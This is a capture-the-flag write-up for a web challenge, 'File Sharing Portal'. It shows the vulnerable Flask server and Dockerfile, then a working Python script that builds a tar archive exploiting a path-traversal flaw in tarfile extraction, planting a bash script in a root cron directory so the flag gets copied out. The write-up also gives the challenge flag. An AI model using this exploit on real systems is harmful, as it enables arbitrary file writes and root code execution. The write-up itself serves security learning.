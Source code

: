 # File Sharing Portal

Category: WEB

Points: 478

Solves: 119

>Welcome to the file sharing portal! We only support tar files!

### TLDR

Get arbitary file upload via python `tarfile` module. Abuse a cron job that runs all files in a folder to write a bash script that copies the flag via `*.txt` into a folder `/uploads/a`. Access folder through website `/view` endpoint. Get flag filename and access through `/read` endpoint. 

### Solution

Let's first look through our given files and what we can do:

Server:
```py
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar':
            return render_template_string("<p> We only support tar files as of right now!</p>")
        name = sha256(os.urandom(16)).digest().hex()
        os.makedirs(f"./uploads/{name}", exist_ok=True)
        file.save(f"./uploads/{name}/{name}.tar")
        try:
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'
       # except:
    return render_template_string(out)

@app.route('/read/<name>/<file>')
def read(name,file):
    if (not all([i in "abcdef1234567890" for i in name])):
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}')
    data = f.read()
    f.close()
    return data

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

Docker:

```
FROM python:3.9-slim
RUN apt-get update && \
    apt-get install -y cron && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*
WORKDIR /app
COPY requirements.txt server.py /app/
COPY templates/ /app/templates/
COPY uploads/ /app/uploads/
COPY REDACTED.txt /app/
# The flag file is redacted on purpose
RUN pip install --no-cache-dir -r requirements.txt
# Add the cron job to the crontab
RUN mkdir /etc/cron.custom
RUN echo "*/5 * * * * root rm -rf /app/uploads/*" > /etc/cron.custom/cleanup-cron
RUN echo "* * * * * root cd / && run-parts --report /etc/cron.custom" | tee -a /etc/crontab
# Give execution rights on the cron job
RUN chmod +x /etc/cron.custom/cleanup-cron
RUN crontab /etc/cron.custom/cleanup-cron
RUN crontab /etc/crontab
CMD ["sh", "-c", "cron && python server.py"]
```

Looks like we have a few endpoints:
1. Upload a tar file that will be extracted and stored in a random id folder in `./uploads`
2. View all files within a folder `./uploads/{random id}`
3. View content of file within a folder `./uploads/{random id}/{file name}`

There are a few restrictions that make this a bit annoying, most imporantly, our folder name can only consist of "abcdef1234567890" and our file can't contain any `..` or `/` so we won't be able to do LFI :< Further, we don't even know the file name of the flag as it's redacted in the docker file.

After thinking about LFI for a while, I decided to check out the tarfile library since I've never used it before, and see how it extracts files the only part we can interact with. After reading the [documentation](https://docs.python.org/3/library/tarfile.html), Jackpot, a vulnerability:

![Tarfile Vulnerability](/images/FileSharingPortalTarfileVuln.png)

Looks like using `extractall` like how the server is doing could lead to files being extracted outside the current directory, as a proof of concept I wrote a python script to help generate this bad tarfiles:

script:

```py
import tarfile
import os

# temp file
with open("temp.txt", 'w') as f:
    f.write("not important")

# create tar file and add 2 files to it
with tarfile.open('proofOfConcept.tar', 'w') as tar:
    tar.add('temp.txt', arcname='thisShouldShowUp') # specifies filename on extract
    tar.add('temp.txt', arcname='../thisShouldNotShowUp') #  ../ moves it out of the directory
```

POC:

![POC](/images/FileSharingPortalTarfilePOC.png)


BAM!!! very cool, we can now upload arbitary files to the servers file system (and even overwrite files if it shares the same name). But, from here what can we do, we still don't know the filename of flag nor can we perform any RCE to get the flag. After thinking through a few incorrect ideas (Overwritting python modules doesn't work since the server is only ran once, and everything will be cached, same thing with overwriting the server file, and most processes, screw caching fr) I realized that there was one way to get my file to run. If we look carefully back at the dockerfile we notice that there are some interesting cron jobs that are being performed:

```
# Add the cron job to the crontab
RUN mkdir /etc/cron.custom
RUN echo "*/5 * * * * root rm -rf /app/uploads/*" > /etc/cron.custom/cleanup-cron
RUN echo "* * * * * root cd / && run-parts --report /etc/cron.custom" | tee -a /etc/crontab
# Give execution rights on the cron job
RUN chmod +x /etc/cron.custom/cleanup-cron
RUN crontab /etc/cron.custom/cleanup-cron
RUN crontab /etc/crontab
CMD ["sh", "-c", "cron && python server.py"]
```

These cron jobs are daemons that will be performed in the background on a schedule while the main thread runs server.py. Let's see what the docker does and if we can get them to run our code. 
1. We first create a directory `/cron.custom` for custom cron processes in `/etc` 
2. Add a `cleanup-cron` file that defines a cron job where it removes all files from the `/uploads` folder (to save storage if we upload a lot of files) this job is then ran every 5 minutes.
3. Put a cron job (runs every minute) that uses `run-parts` to run all the files in `/etc/cron.custom` into current cron process stored in `crontab`
4. Give execution rights for cron jobs
5. Runs all the cron jobs made earlier

At first I tried to redefine builtin binaries like `rm` and `run-parts` with no luck (I think you can do it but I messed up something), Then I realized that I can add my own file (or overwrite cleanup-cron) in `/cron.custom`. The `run-parts` cron job would then execute my file every minute. But what commands should I run. After more trial and error, I ended up creating a folder `a` in uploads where I could move `*.txt` into. Then from the website I could go to `/view/a` and `REDACTED.txt` would be there. Now I just needed to code it up (with a lot of debugging in a local docker container):

```py
import tarfile
import os

os.makedirs('exploittar', exist_ok=True)
# create file to be run
with open('exploittar/temp.txt', 'w') as f:
    # shebang needed for run-parts (debugged in local docker)
    # copies all txt files from app into uploads/a folder
    f.write("#!/bin/bash\ncp /app/*.txt /app/uploads/a/.\n")

# also give the file executable writes so it can be run (debugged in local docker)
# today I learned that files preserve permission writes after being transfered and copied around
os.system("chmod +x exploittar/temp.txt")

# create exploit tar file
with tarfile.open('exploittar.tar', 'w') as tar:
    # adds exploit file to be put in cron.custom (rel path found in local docker)
    tar.add('exploittar/temp.txt', arcname='../../../etc/cron.custom/exploit')
    # creates folder 'a' inside uploads and file a.tar to make server happy
    # server attempts to remove *name*.tar from folder *name* before displaying
    # only arcname matters here
    tar.add('exploittar/temp.txt', arcname='../a/a.tar')

# Clean up temporary files
os.remove('exploittar/temp.txt')
os.rmdir('exploittar')
```

We can now upload this to the website and wait for a minute to pass:

![Upload](/images/FileSharingPortalExploit.png)

After 1 min:

![After 1 Minute](/images/FileSharingPortalExploitAfter1min.png)

NICE! It works, we have got the flag file:

![Flag](/images/FileSharingPortalFlag.png)

Definetely one of the more enjoyable/interesting challenges \:D

### Flag

```n00bz{n3v3r_7rus71ng_t4r_4g41n!_0894282b7aae}```